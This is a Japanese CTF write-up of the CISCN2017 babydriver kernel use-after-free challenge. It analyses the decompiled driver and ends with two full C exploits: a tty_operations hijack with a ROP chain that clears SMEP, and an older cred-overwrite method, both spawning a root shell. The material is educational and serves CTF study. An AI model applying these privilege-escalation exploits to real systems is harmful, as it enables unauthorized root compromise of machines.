



# kernel UAF

UAF は Use After Free のことで、通常は**解放後にリセットされていないダングリングポインタ(垂悬指针)の悪用**を指します。ユーザ空間のヒープ編では、ptmalloc に対する攻略の多くが UAF 脆弱性を土台にしていました。

CTF では、カーネルの「ヒープメモリ」は主にダイレクトマッピング領域(direct mapping area)を指します。よく使われる確保関数 kmalloc はここからメモリを確保し、よく使われるアロケータは slub allocator です。kernel にダングリングポインタがあれば、同様にそれを足がかりに slab/slub メモリアロケータを攻略でき、Kernel UAF で権限昇格できます。

## 例題：CISCN2017 - babydriver

問題の添付ファイルは [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/CISCN2017-babydriver](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/CISCN2017-babydriver) からダウンロードできます。

### 分析
まず rootfs.cpio を展開して、どんなファイルがあるか見てみます。
```bash
CISCN2017_babydriver [master●] mkdir core
CISCN2017_babydriver [master●] cd core 
core [master●] mv ../rootfs.cpio rootfs.cpio.gz
core [master●●] gunzip ./rootfs.cpio.gz 
core [master●] ls
rootfs.cpio
core [master●] cpio -idmv < rootfs.cpio 
.
etc
etc/init.d
etc/passwd
etc/group
...
...
usr/sbin/rdev
usr/sbin/ether-wake
tmp
linuxrc
home
home/ctf
5556 块
core [master●] ls
bin  etc  home  init  lib  linuxrc  proc  rootfs.cpio  sbin  sys  tmp  usr
core [master●] bat init
───────┬─────────────────────────────────────────────────────────────────────────────────
       │ File: init
───────┼─────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/sh
   2   │
   3   │ mount -t proc none /proc
   4   │ mount -t sysfs none /sys
   5   │ mount -t devtmpfs devtmpfs /dev
   6   │ chown root:root flag
   7   │ chmod 400 flag
   8   │ exec 0</dev/console
   9   │ exec 1>/dev/console
  10   │ exec 2>/dev/console
  11   │
  12   │ insmod /lib/modules/4.4.72/babydriver.ko
  13   │ chmod 777 /dev/babydev
  14   │ echo -e "\nBoot took $(cut -d' ' -f1 /proc/uptime) seconds\n"
  15   │ setsid cttyhack setuidgid 1000 sh
  16   │
  17   │ umount /proc
  18   │ umount /sys
  19   │ poweroff -d 0  -f
  20   │
───────┴────────────────────────────────────────────────────────────
```
init の内容から、12 行目で `babydriver.ko` というドライバをロードしていることが分かります。pwn の定石に従えば、これが脆弱な LKM です。init のその他のコマンドは Linux でよく使われるものなので、説明は省略します。

このドライバファイルを取り出します。

```bash
core [master●] cp ./lib/modules/4.4.72/babydriver.ko ..
core [master●] cd ..
CISCN2017_babydriver [master●] check ./babydriver.ko
./babydriver.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=8ec63f63d3d3b4214950edacf9e65ad76e0e00e7, with debug_info, not stripped
[*] '/home/m4x/pwn_repo/CISCN2017_babydriver/babydriver.ko'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x0)
```
PIE は無効で、canary による保護もなく、シンボルテーブルも削除されていません。とても都合が良いです。

IDA で開いて解析します。シンボルテーブルが削除されていないので、まず shift + F9 でどんな構造体があるか見てみると、次の構造体が見つかります。
```asm
00000000 babydevice_t    struc ; (sizeof=0x10, align=0x8, copyof_429)
00000000                                         ; XREF: .bss:babydev_struct/r
00000000 device_buf      dq ?                    ; XREF: babyrelease+6/r
00000000                                         ; babyopen+26/w ... ; offset
00000008 device_buf_len  dq ?                    ; XREF: babyopen+2D/w
00000008                                         ; babyioctl+3C/w ...
00000010 babydevice_t    ends
00000010
```

次に主要な関数を見ます。

**babyioctl:** 0x10001 のコマンドを定義しています。グローバル変数 babydev\_struct の device\_buf を解放し、ユーザが渡した size に従ってメモリを確保し直し、device\_buf\_len を設定します。
```C
// local variable allocation has failed, the output may be wrong!
void __fastcall babyioctl(file *filp, unsigned int command, unsigned __int64 arg)
{
  size_t v3; // rdx
  size_t v4; // rbx
  __int64 v5; // rdx

  _fentry__(filp, *(_QWORD *)&command);
  v4 = v3;
  if ( command == 0x10001 )
  {
    kfree(babydev_struct.device_buf);
    babydev_struct.device_buf = (char *)_kmalloc(v4, 0x24000C0LL);
    babydev_struct.device_buf_len = v4;
    printk("alloc done\n", 0x24000C0LL, v5);
  }
  else
  {
    printk("\x013defalut:arg is %ld\n", v3, v3);
  }
}
```

**babyopen:** 0x40 バイトの領域を確保し、そのアドレスをグローバル変数 babydev\_struct.device\_buf に格納して、babydev\_struct.device\_buf\_len を更新します。
```C
int __fastcall babyopen(inode *inode, file *filp)
{
  __int64 v2; // rdx

  _fentry__(inode, filp);
  babydev_struct.device_buf = (char *)kmem_cache_alloc_trace(kmalloc_caches[6], 0x24000C0LL, 0x40LL);
  babydev_struct.device_buf_len = 64LL;
  printk("device open\n", 0x24000C0LL, v2);
  return 0;
}
```

**babyread:** まず長さが babydev\_struct.device\_buf\_len より小さいか確認し、その後 babydev\_struct.device\_buf のデータを buffer にコピーします。buffer と長さはどちらもユーザが渡す引数です。
```C
void __fastcall babyread(file *filp, char *buffer, size_t length, loff_t *offset)
{
  size_t v4; // rdx

  _fentry__(filp, buffer);
  if ( babydev_struct.device_buf )
  {
    if ( babydev_struct.device_buf_len > v4 )
      copy_to_user(buffer, babydev_struct.device_buf, v4);
  }
}
```

**babywrite:** babyread と似ていますが、buffer からグローバル変数側にコピーする点が異なります。
```C
void __fastcall babywrite(file *filp, const char *buffer, size_t length, loff_t *offset)
{
  size_t v4; // rdx

  _fentry__(filp, buffer);
  if ( babydev_struct.device_buf )
  {
    if ( babydev_struct.device_buf_len > v4 )
      copy_from_user(babydev_struct.device_buf, buffer, v4);
  }
}
```

**babyrelease:** 領域を解放します。特に説明することはありません。
```C
int __fastcall babyrelease(inode *inode, file *filp)
{
  __int64 v2; // rdx

  _fentry__(inode, filp);
  kfree(babydev_struct.device_buf);
  printk("device release\n", filp, v2);
  return 0;
}
```

このほか、babydriver\_init() と babydriver\_exit() の 2 つの関数が、それぞれ **/dev/babydev** デバイスの初期化とクリーンアップを行っています。関数の使い方を調べれば分かるので、解析は省略します。

### 方針

ユーザ空間で従来見られるオーバーフローのような脆弱性はありませんが、疑似的な競合状態(race condition)によって生じる UAF 脆弱性があります。

- 2 つのデバイスを同時に開くと、babydev\_struct がグローバルなため、2 回目の確保が 1 回目に確保した領域を上書きします。同様に、1 つ目を解放すると、2 つ目は実際には解放済みの領域を指していることになり、UAF が発生します。

次に、UAF を使ってプログラムの実行フローをハイジャックする方法を考えます。ここでは `tty_struct` 構造体を victim object に選びます。

`/dev` の下には疑似端末デバイス `ptmx` があり、このデバイスを開くとカーネル内に `tty_struct` 構造体が作られます。ほかの種類のデバイスと同様に、tty ドライバにも関数ポインタを格納した構造体 `tty_operations` があります。

そこで、UAF を使って `/dev/ptmx` デバイスの `tty_struct` 構造体と、その内部の `tty_operations` 関数テーブルをハイジャックすることが考えられます。そうすれば、このデバイスに対して対応する操作(write、ioctl など)を行ったときに、細工した悪意ある関数ポインタが実行されます。

SMAP が有効でないため、ユーザ空間プロセスのスタック上に ROP チェーンと `fake tty_operations` 構造体を配置できます。

> 構造体 `tty_struct` は `include/linux/tty.h` に、`tty_operations` は `include/linux/tty_driver.h` にあります。
 
カーネルには `one_gadget` のようなものがないため、ROP を行うには**スタックピボット(栈迁移)**も一度行う必要があります。

gdb でデバッグし、カーネルが悪意ある関数ポインタを呼び出すときの各レジスタの値を観察します。ここでは `tty_operations` 構造体をユーザ空間のスタック上にハイジャックし、ブレークポイントを置きやすいように、fake tty の関数ポインタには任意のカーネル gadget を 1 つ選びます。



`tty_operations->write` を呼び出すとき、**rax レジスタに入っているのは tty\_operations 構造体のアドレスである**ことが分かります。したがって、カーネル内に `mov rsp, rax` のような gadget を見つけられれば、スタックを `tty_operations` 構造体の先頭へピボットできます。

ROPgadget で関連する gadget を探すと、条件に合う gadget が 2 つ見つかります。



gdb でデバッグすると、1 つ目の gadget は実際には `mov rsp, rax ; dec ebx ; ret` と等価であることが分かります。



この gadget を使えば、スタックピボットをうまく行い、構築した ROP チェーンを実行できます。

ただし、`tty_operations` 構造体の先頭から write ポインタまでの空間は狭いため、もう一度スタックピボットを行う必要があります。ここでは rax を書き換える gadget を適当に 1 つ選べば十分です。


### Exploit

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

#define POP_RDI_RET 0xffffffff810d238d
#define POP_RAX_RET 0xffffffff8100ce6e
#define MOV_CR4_RDI_POP_RBP_RET 0xffffffff81004d80
#define MOV_RSP_RAX_DEC_EBX_RET 0xffffffff8181bfc5
#define SWAPGS_POP_RBP_RET 0xffffffff81063694
#define IRETQ_RET 0xffffffff814e35ef

size_t commit_creds = NULL, prepare_kernel_cred = NULL;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void getRootPrivilige(void)
{
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

void getRootShell(void)
{   
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }

    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

int main(void)
{
    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");
    saveStatus();

    //get the addr
    FILE* sym_table_fd = fopen("/proc/kallsyms", "r");
    if(sym_table_fd < 0)
    {
        printf("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m\n");
        exit(-1);
    }
    char buf[0x50], type[0x10];
    size_t addr;
    while(fscanf(sym_table_fd, "%llx%s%s", &addr, type, buf))
    {
        if(prepare_kernel_cred && commit_creds)
            break;

        if(!commit_creds && !strcmp(buf, "commit_creds"))
        {
            commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%llx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred"))
        {
            prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%llx\n", prepare_kernel_cred);
            continue;
        }
    }

    size_t rop[0x20], p = 0;
    rop[p++] = POP_RDI_RET;
    rop[p++] = 0x6f0;
    rop[p++] = MOV_CR4_RDI_POP_RBP_RET;
    rop[p++] = 0;
    rop[p++] = getRootPrivilige;
    rop[p++] = SWAPGS_POP_RBP_RET;
    rop[p++] = 0;
    rop[p++] = IRETQ_RET;
    rop[p++] = getRootShell;
    rop[p++] = user_cs;
    rop[p++] = user_rflags;
    rop[p++] = user_sp;
    rop[p++] = user_ss;

    size_t fake_op[0x30];
    for(int i = 0; i < 0x10; i++)
        fake_op[i] = MOV_RSP_RAX_DEC_EBX_RET;

    fake_op[0] = POP_RAX_RET;
    fake_op[1] = rop;

    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    ioctl(fd1, 0x10001, 0x2e0);
    close(fd1);

    size_t fake_tty[0x20];
    int fd3 = open("/dev/ptmx", 2);
    read(fd2, fake_tty, 0x40);
    fake_tty[3] = fake_op;
    write(fd2, fake_tty, 0x40);

    write(fd3, buf, 0x8);

    return 0;
}
```

### Old Solution

この問題が出題された当時の解法は、**UAF でそのプロセスの cred 構造体の uid、gid を 0 に書き換える**というもので、非常に簡単で、ほとんど無料でもらえるようなものでした。

しかし、**この方法は新しいバージョンの kernel ではもう使えません。cred\_jar 内のオブジェクトを直接確保することができなくなっているためです**。これは、cred\_jar が作成時に `SLAB_ACCOUNT` フラグを設定しており、`CONFIG_MEMCG_KMEM=y`(デフォルトで有効)の場合、**cred\_jar は同じサイズの kmalloc-192 と統合されなくなる**からです。

> カーネルソース 4.5 の `kernel/cred.c` より
>
> ```c
> void __init cred_init(void)
> {
> 	/* allocate a slab in which we can store credentials */
> 	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,
> 			SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT, NULL);
> }
> ```
>
> 本問題(4.4.72)：
>
> ```c
> void __init cred_init(void)
> {
> 	/* allocate a slab in which we can store credentials */
> 	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred),
> 				     0, SLAB_HWCACHE_ALIGN|SLAB_PANIC, NULL);
> }
> ```

そこで、ここではより汎用的な解法を紹介します。古い解法に興味のある方は、次の exp を参照してください。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

int main(void)
{
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");

    ioctl(fd1, 0x10001, 0xa8); /* object to be reused as the child's cred */
    close(fd1);

    int pid = fork();

    if(pid < 0) {
        printf("\033[31m\033[1m[x] Unable to fork.\033[0m\n");
        return -1;
    }
    else if(pid == 0) { /* the child to get the UAF cred */
        char buf[30];

        memset(buf, '\0', sizeof(buf));
        write(fd2, buf, 28);  /* overwrite uid&gid to 0 directly */

        if(getuid() == 0) {
            puts("\033[32m\033[1m[+] Successful to get the root.\033[0m\n");
            system("/bin/sh");
            return 0;
        } else {
            printf("\033[31m\033[1m[x] Failed to get the root.\033[0m\n");
            return -1;
        }
    }
    else { /* the parent */
        wait(NULL); /* waiting for the child to be done */
    }

    return 0;
}
```


## Reference

https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x04-Kernel-Heap-Use-After-Free

https://bbs.pediy.com/thread-247054.htm

https://whereisk0shl.top/NCSTISC%20Linux%20Kernel%20pwn450%20writeup.html

http://muhe.live/2017/07/13/babydriver-writeup/

https://www.anquanke.com/post/id/86490
